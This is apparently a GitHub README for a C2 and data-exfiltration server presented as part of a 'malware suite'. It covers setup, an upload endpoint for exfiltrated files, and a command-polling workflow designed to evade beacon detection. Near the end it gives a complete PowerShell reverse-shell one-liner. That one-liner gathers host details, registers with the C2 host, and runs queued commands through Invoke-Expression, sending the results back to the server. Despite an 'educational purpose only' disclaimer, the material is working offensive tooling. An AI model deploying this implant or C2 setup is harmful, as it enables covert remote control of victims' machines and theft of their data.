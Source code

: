 ```
██╗  ██╗ ██████╗ ██████╗ ██╗███████╗ ██████╗ ███╗   ██╗██████╗  █████╗  ██████╗██╗  ██╗██████╗  ██████╗ ███╗   ██╗███████╗
██║  ██║██╔═══██╗██╔══██╗██║╚══███╔╝██╔═══██╗████╗  ██║██╔══██╗██╔══██╗██╔════╝██║ ██╔╝██╔══██╗██╔═══██╗████╗  ██║██╔════╝
███████║██║   ██║██████╔╝██║  ███╔╝ ██║   ██║██╔██╗ ██║██████╔╝███████║██║     █████╔╝ ██████╔╝██║   ██║██╔██╗ ██║█████╗  
██╔══██║██║   ██║██╔══██╗██║ ███╔╝  ██║   ██║██║╚██╗██║██╔══██╗██╔══██║██║     ██╔═██╗ ██╔══██╗██║   ██║██║╚██╗██║██╔══╝  
██║  ██║╚██████╔╝██║  ██║██║███████╗╚██████╔╝██║ ╚████║██████╔╝██║  ██║╚██████╗██║  ██╗██████╔╝╚██████╔╝██║ ╚████║███████╗
╚═╝  ╚═╝ ╚═════╝ ╚═╝  ╚═╝╚═╝╚══════╝ ╚═════╝ ╚═╝  ╚═══╝╚═════╝ ╚═╝  ╚═╝ ╚═════╝╚═╝  ╚═╝╚═════╝  ╚═════╝ ╚═╝  ╚═══╝╚══════╝
```

-----------------------------------------------------------------------------------

**THIS SERVICE IS DESIGNED FOR EDUCATIONAL PURPOSE ONLY! DO NOT USE IT FOR ILLEGAL PURPOSES!**

***Go to the [development-microservices](https://github.com/maxbirnbacher/HorizonBackbone/tree/development-microservices) branch for a preview of the microservices version (currently in development and not ready for production).***

The heart of the Horizon Malware Suite and used for all kinds of things.

## Roadmap

- [X] List files
- [x] Simple web-interface
- [x] File download
- [ ] Delete file(s)
- [X] Make a better UI for the web-interface
- [X] C2 Server and API
- [X] Frontend for C2 Server
- [ ] API & frontend authentication
- [ ] Dynamic creation of stagers/droppers
- [ ] Frontend-Dialog for stager/dropper creation
- [ ] File upload for droppers


## Setup & Start

Clone the repository and run `docker-compose build` to build the images.

Start the stack with `docker-compose up -d` and you are good to go.

## Usage

### Dashboard

After starting the stack you can access the Webinterface by accessing `http://SERVER_IP_OR_DOMAIN:8000` in your browser.

There you can (*currently*) choose between the Data Exfiltration and the C2 Server.

### Data Exfiltration

To exfiltrate data you can use the '/upload' endpoint.

You can see your uploaded files under `http://SERVER_IP_OR_DOMAIN:8000/list-files-view`.

![DataExfil](https://github.com/maxbirnbacher/HorizonBackbone/assets/66524685/39b7923c-8328-4672-8dc7-5f75cc725565)

If you click on the filename you can access the file and download it.

![FileView](https://github.com/maxbirnbacher/HorizonBackbone/assets/66524685/75e3ff57-d2e7-45da-8c4d-8f8beffb0653)

### C2 Server

The C2 Server is intended for long-term usage. Communication should take place over a long period of time that are non-linear to avoid beacon detection.

The workflow is as follows:

1. Register a new client. This will create a new client in the database and return a unique ID. This ID is used for all further communication with the client. (`http://SERVER_IP_OR_DOMAIN:8000/register`)
2. Queue new commands for the client via the web-interface in the detail view of each client.
3. The client will check for new command(s) after the specified interval and execute it/them. (`http://SERVER_IP_OR_DOMAIN:8000/commands/{connection_id}`)
4. The client will send the results of the command(s) to the server. (`http://SERVER_IP_OR_DOMAIN:8000/output/send/{connection_id}`)
5. The server will store the results in the database and make them available via the web-interface. Hit the refresh button in the detail view of the client to see the output.
6. Unregister the client if you don't need it anymore. (`http://SERVER_IP_OR_DOMAIN:8000/unregister/{connection_id}`) *interface currently in development*

#### Reverse Shell Example

Here is an example of a reverse shell using the C2 Server.

```PowerShell
$ip_address=((ipconfig|Select-String "IPv4 Address").ToString() -split ": ")[-1];$os_type=(Get-WmiObject -Class Win32_OperatingSystem).Caption;$hostname=(Get-WmiObject -Class Win32_ComputerSystem).Name;$username=[Environment]::UserName;$main_url="http://10.0.0.9:8000";$interval=30;$intervalUnit="Seconds";$body=@{os_type=$os_type;ip_address=$ip_address;hostname=$hostname;username=$username;password="placeholder"}|ConvertTo-Json;Write-Host "IP Address: $ip_address";Write-Host "OS Type: $os_type";Write-Host "Hostname: $hostname";Write-Host "Username: $username";$url="http://10.0.0.9:8000/register?os_type=$os_type&ip_address=$ip_address&hostname=$hostname&username=$username&password=$password";$response=Invoke-RestMethod -Method Post -Uri $url;$connection_id=$response.id;Write-Host "Registered connection with ID: $connection_id";while($true){$url="$main_url/commands/$connection_id";$command=Invoke-RestMethod -Method Get -Uri $url;Write-Host "Received command: $command";if([string]::IsNullOrEmpty($command)){write-host "No command received yet...";$startSleepCmd="Start-Sleep -$intervalUnit $interval";$startSleepCmdStr=[String]$startSleepCmd;Invoke-Expression $startSleepCmdStr;continue;}if($command -eq "exit"){write-host "Exiting...";break;}write-host "Executing command: $command";if($command -ne "" -or $null -ne $command){$commandStr=[String]$command;$result=Invoke-Expression $commandStr;$output=$result|Out-String;$body=@{output=$output}|ConvertTo-Json;$url="$main_url/output/send/$connection_id";$body=@{output=$output}|ConvertTo-Json;Invoke-RestMethod -Method Post -Uri $url -Body $body;}}
```

### API

You can find all the API endpoints in the under `http://SERVER_IP_OR_DOMAIN:8000/docs`.





